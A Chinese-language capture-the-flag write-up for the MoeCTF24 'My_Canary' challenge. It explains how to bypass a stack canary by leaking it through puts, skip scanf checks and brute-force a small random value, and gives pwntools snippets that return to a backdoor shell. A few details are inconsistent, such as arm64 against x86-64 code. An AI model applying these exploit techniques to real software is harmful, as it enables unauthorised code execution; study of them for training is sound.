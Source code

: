 # MoeCTF24 My_Canary Writeup

## 1.提供的文件的浅显信息：
1. ELF,arm64_little,linux,partial Relro
2. 编译保护信息：NX enable,No PIE,Canary found
3. 根据名字canary，大概猜测是关于Stack_Canary的题
  
## 2.根据反汇编代码观察所得信息：
1. 存在后门函数：用GDB，IAD可以反汇编得出以下代码,由于没有用PIE，先记录一下它的地址： 
```
    + Dump of assembler code for function unreachable:
    0x00000000004012a8 <+0>:     endbr64
    0x00000000004012ac <+4>:     push   rbp
    0x00000000004012ad <+5>:     mov    rbp,rsp
```

下面是反编译代码:
```
    int unreachable(){
    write(1, "Why does the canary remain silent...\n", 0x25uLL);
    return system("/bin/sh");
    }
```

2. 既然是一个canary命名的题，那么应该有栈保护，如果还没有了解什么是canary,可以看看CTF Handbook上对于canary的描述。我们这里简单说明一下栈结构和canary的关系。
```
    [ buf (0x20字节)        ]  ← 变量区
    [ canary (8 字节)       ]  ← 安全检查用
    [ saved rbp (8 字节)    ]  ← 栈基指针
    [ return address (8 字节) ] ← 函数返回地址
```
所以我们如果要使用之前unreachable的地址进行ROP（Return-Oriented Programming），必须要绕过canary对栈的保护机制。先来找找canary的地址在哪？
<!-- ![IDA_Stack_info](https://img2024.cnblogs.com/blog/3460580/202504/3460580-20250420105045796-307255303.png) -->
![img](https://img2024.cnblogs.com/blog/3460580/202504/3460580-20250420105045796-307255303.png)


可以发现buf是距离rbp最近的变量，它的大小是24B，根据其地址0020h-0018=0008h那么var_8就是我们要找的canary.也可以注意到这个canary就是我们反编译代码中的v12.
```
    unsigned __int64 v12; // [rsp+48h] [rbp-8h]
    v12 = __readfsqword(0x28u);
```

1. 除了这些重要信息，我们还要理清这个程序流程：
    1. 有一个输入随机数猜测的循环：这个输入对象，由gdb看RX可以看出目标是v6
    ``` 
            v8 = (unsigned int)arc4random(argc, 0LL, v4) % 0x2345 + 16768186;
            while ( (unsigned int)__isoc99_scanf() == -1 || v8 != v6 )
            write(1, "[Error] Wrong! Try again.\n", 0x1AuLL);
    ```
    大家可以设置断点来快速定位scanf在反汇编代码的位置
    ``` 
    0x0000000000401444 <+230>:   call   0x401110 <write@plt>
    0x0000000000401449 <+235>:   lea    rax,[rbp-0x4c]
    0x000000000040144d <+239>:   mov    rsi,rax
    0x0000000000401450 <+242>:   lea    rax,[rip+0xc3b]        # 0x402092
    0x0000000000401457 <+249>:   mov    rdi,rax
    0x000000000040145a <+252>:   mov    eax,0x0
    => 0x000000000040145f <+257>:   call   0x401180 <__isoc99_scanf@plt> 
    ```


    2. 有一个对于v9输入三次的循环，有两个对于v9，v10数据进行特殊值要求的判断
    ```
    cage_bak = v9[0];
    for ( i = 0; i <= 2; ++i ){
        __isoc99_scanf();
        if ( !v9[i] )
        break;
    }
    if ( v10 != 195874819 ){
        write(1, "[FATAL] Canary under attack. Shutting down...\n", 0x2EuLL);
        _exit(1);
        }
        if ( v9[0] != cage_bak ){
        write(1, "[FATAL] Hacker!\n", 0x10uLL);
        _exit(1);
    }
    ``` 

    3. 通过以上后，尝试对buf进行写入，注意buf的大小是24，但是它提供的read(0,buf,0x30ull);说明给了48Bytes的缓存,不过具体写多少其实还是由我们编写exploit.py时决定（不超过缓存大小）。
    ```
    read(0, buf, 0x30uLL);
    puts(buf);
    read(0, buf, 0x30uLL);    
    ``` 
     
## 3.开始尝试对这行关卡进行跳过：
1. 输入一个随机数由于这个随机数的范围已经给出了，并且0x2345这个数不到10000，只需要简单的暴力遍历就可以找到：
```
    v8 =  16768186 # 0xffabcd
    p.sendlineafter('ed.\n',str(v8).encode()) # 先触发一下错误
    for i in range(0x2345):
        payload = v8 + i
        p.sendlineafter(b'n.\n',str(payload).encode())
        # 如果匹配到了，就退出
        ret = p.recvuntil(b'] ')
        if 'Error' not in ret.decode():
            print('find it: ',payload)
            break
```

2. 第二个判断是有三个写入，它希望我们保持v9[0]不变，但是它是个随机数，我们很难知道它的值，v9[1]没有要求，v10要求值变为19587481。现在的难点在于我们要怎么输入这个v9[0]？这似乎只能输入它所需的值才可以呢，或者说是输入没有改变v9[0]。
根据题目提示，我们应该尝试跳过scanf而不是对其进行输入。怎么跳过呢？其实就是要表示数字的正负值的'+'和'-'可以将scanf对于%d的输入进行跳过，因为这两个符号只是告诉scanf输入的数据的类型，当知道只一点后，scanf就只是等待数字的输入。
```
    # 尝试跳过v9[0],v9[1]随意
    p.sendlineafter(b't.\n',b'-')
    p.sendline(b'1')

    # 在跳过v9[0,1]后，开始覆写v9[2]即v10（可以观察stack对于v10内存的分配）
    payload = 195874819
    p.sendline(str(payload).encode())
```

3. 第三个使用Read进行ROP的操作：难点：怎么在不改变canary的方法来进行ROP？
    值得注意的是，它给了我们两次read()，这似乎不是很符合我们一贯的习惯，我们也不会说对于同一个对象写两次一样的输入会有什么特别。
    But,it' s worth noting,它们之间有一个puts(),hhh，这是摆明了让我们尝试回显canary。然后根据这个值做出第二轮输入。那么我们就可以设计以下代码：
```
    unreachable = 0x4012ad # 0x4012a8并非正常指令，要调到mov 语句  

    # 由于它使用了read函数，且设置的fd是0，所以是standard input
    # 这里我们可以某些值使得buffer的值溢出到返回地址，同时返回地址写入后门函数的地址

    p.send(cyclic(25))  
    # 第一次写入25B，最后1B是为了回显canary，但是又不会改变Canary后续的内容。

    p.recvuntil(b'g')   # cyclic的3字符轮换到25就是'g'
    canary = b'\x00' + p.recvn(7) # 读取canary，

    # ROP： buff + canary + rbp + ret
    p.send(cyclic(24) + canary + cyclic(8)+p64(unreachable))

    p.interactive()  # 这个可恶的interactive()一定不要忘了写，我之前忘记了一直在调代码，回头一看忘记写了……
```

    

## 4. 为什么它会有这个漏洞？Vulnerable?
1. 使用了canary，但是提供了回显Canary的方法，警惕在靠近Canary的变量的IO行为。
2. 使用的scanf存在可跳过的操作，即使随机数和加密使得要知道v9[0]的值几乎不可能，但是可以绕过检测也是一种success。
3. 使用的随机数的空间太小，0x2345不到10000，可枚举。


## 5. 个人的错误（脑子瓦特了，当乐子看看就行）：
1. 尝试将v6写到v8，使二者指相等，但是实际上这里使用%d输入的话不会对后续进行溢出，不过如果是%s又不一样了，如果v8的地址比v6的地址低，那么就可以尝试覆写v8。如果有兴趣可以看看我这篇关于变量之间覆写的测试随笔。    
![](https://img2024.cnblogs.com/blog/3460580/202504/3460580-20250420221733499-497443898.png)
![](https://img2024.cnblogs.com/blog/3460580/202504/3460580-20250420221702591-403955880.png)


2. 写脚本时发现捣鼓半天才发现没有写interactive来接收shell，孩子这辈子也是有了。


### 以上就是所有个人见解了，如果有任何错误请务必指出讨论，谢谢。